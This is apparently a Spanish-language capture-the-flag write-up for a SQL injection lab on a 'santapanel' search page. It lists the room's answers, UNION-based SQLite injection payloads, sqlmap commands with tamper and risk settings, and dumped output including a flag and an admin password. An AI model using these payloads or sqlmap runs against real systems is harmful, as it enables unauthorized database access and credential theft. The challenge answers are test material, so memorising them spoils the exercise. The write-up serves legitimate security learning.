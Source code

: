 
# SQLi

## Respuestas

/santapanel

http://10.10.64.187:8000/santapanel?search=hola%27+or+1%3D1+limit+100+--

22

github ownership

## Inyeccion sql


```
' UNION SELECT sqlite_version(), NULL--

' UNION SELECT 1,tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
hidden_table
sequels
users

' UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hidden_table' --
' UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --

' UNION SELECT 1,* from hidden_table  -- 
thmfox{All_I_Want_for_Christmas_Is_You

' UNION SELECT username, password from users  --

```


```
sqlmap -r req2 --dbms=sqlite --tamper=space2comment --level 3 --risk 3 --threads 9
```

```
sqlmap -r req2 --dbms=SQLite --tables
+--------------+
| hidden_table |
| sequels      |
| users        |
+--------------+
```

```
sqlmap -r req2 --dbms=SQLite -T hidden_table --dump --threads 9
thmfox{All_I_Want_for_Christmas_Is_You}
```

```
sqlmap -r req2 --dbms=SQLite -T users --dump --threads 9
+----------+------------------+
| username | password         |
+----------+------------------+
| admin    | EhCNSWzzFP6sc7gB |
+----------+------------------+
```


## Referencias

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
